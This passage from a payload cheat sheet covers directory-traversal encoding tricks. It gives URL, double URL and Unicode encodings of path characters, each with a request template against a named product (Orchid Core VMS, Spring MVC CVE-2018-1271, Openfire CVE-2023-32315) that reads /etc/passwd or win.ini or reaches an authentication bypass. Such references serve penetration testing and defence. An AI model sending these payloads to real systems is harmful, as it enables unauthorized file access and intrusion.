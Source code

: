 ### URL Encoding

| Character | Encoded |
| --- | -------- |
| `.` | `%2e` |
| `/` | `%2f` |
| `\` | `%5c` |

**Example:** IPConfigure Orchid Core VMS 2.0.5 - Local File Inclusion

```ps1
{{BaseURL}}/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd
```

### Double URL Encoding

Double URL encoding is the process of applying URL encoding twice to a string. In URL encoding, special characters are replaced with a % followed by their hexadecimal ASCII value. Double encoding repeats this process on the already encoded string.

| Character | Encoded |
| --- | -------- |
| `.` | `%252e` |
| `/` | `%252f` |
| `\` | `%255c` |

**Example:** Spring MVC Directory Traversal Vulnerability (CVE-2018-1271)

```ps1
{{BaseURL}}/static/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini
{{BaseURL}}/spring-mvc-showcase/resources/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini
```

### Unicode Encoding

| Character | Encoded |
| --- | -------- |
| `.` | `%u002e` |
| `/` | `%u2215` |
| `\` | `%u2216` |

**Example**: Openfire Administration Console - Authentication Bypass (CVE-2023-32315)

```js
{{BaseURL}}/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```

### Overlong UTF-8 Unicode Encoding
